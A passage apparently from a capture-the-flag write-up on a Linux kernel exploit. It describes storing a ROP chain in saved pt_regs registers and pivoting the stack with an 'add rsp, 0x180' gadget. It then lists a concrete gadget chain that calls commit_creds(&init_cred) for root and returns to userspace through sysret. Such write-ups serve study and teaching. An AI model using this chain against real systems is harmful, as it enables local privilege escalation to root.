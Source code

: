 ```c
	unsigned long rdi;
	unsigned long orig_rax;
	unsigned long rip;
	unsigned long cs;
	unsigned long eflags;
	unsigned long rsp;
	unsigned long ss;
};
```

At this point I had an idea: what if we could store a ROP chain in the contents
of `pt_regs`? `r8`-`r15`, `rbx`, and `rbp` are ignored by the `read` syscall and
can contain any value (except `r11` which contains the saved `rflags`). This
gives us about 80 bytes of contiguous controlled memory. Is this enough to fit
a ROP chain that gives us root and returns to userspace without crashing? Can
we even move the stack pointer to the beginning of the controlled area in a
single gadget?

As luck would have it, the answer to the second question is yes! I found this
gadget that moves the stack pointer by just the right amount when invoked from
the overwritten `seq_operations` pointer:

```
0xffffffff81516ebe: add rsp, 0x180; mov eax, r12d; pop rbx; pop r12; pop rbp; ret; 
```

But still, 80 bytes is really not a lot. Can we fit our ROP chain in so little
space? A typical payload used to get root in kernel exploits calls
`commit_creds(prepare_kernel_cred(NULL))`. Doing this uses 32 bytes in our ROP
chain. However in addition to this we have to return to userspace cleanly, or
we will crash the VM before we can use our newly-acquired root credentials.
Returning to userspace takes an additional 40 bytes because we need to set `rcx`
to a valid userspace address and `r11` to valid flags before we can ROP to
`syscall_return_via_sysret`. This comes in at 72 bytes, just below of our 80
byte budget. We can further optimize this down to 64 bytes if we do
`commit_creds(&init_cred)` instead, and skip `prepare_kernel_cred`. `init_cred`
is the `cred` structure used for the init process and it's located in the
kernel's data section. Our final ROP chain then looks like this:

```
r15: 0xffffffff81075c4c: pop rdi; ret
r14: 0xffffffff8266b780: &init_cred
r13: 0xffffffff810c9dd5: commit_creds
r12: 0xffffffff810761da: pop rcx; ret
rbp: < address of our code in userspace >
rbx: 0xffffffff8107605a: pop r11; ret
r11: < valid rflags value >
r10: 0xffffffff81c00109: return from syscall
```

We need precise control over the values stored in the registers when we invoke
the syscall handler. We need to recover our userspace stack after returning.
This is probably possible in C but I figured I should write a helper function
in assembly instead, to have more precise control over the registers. The
`syscall` instruction already stores the current value of `rflags` in `r11` so
we don't have to set that register.
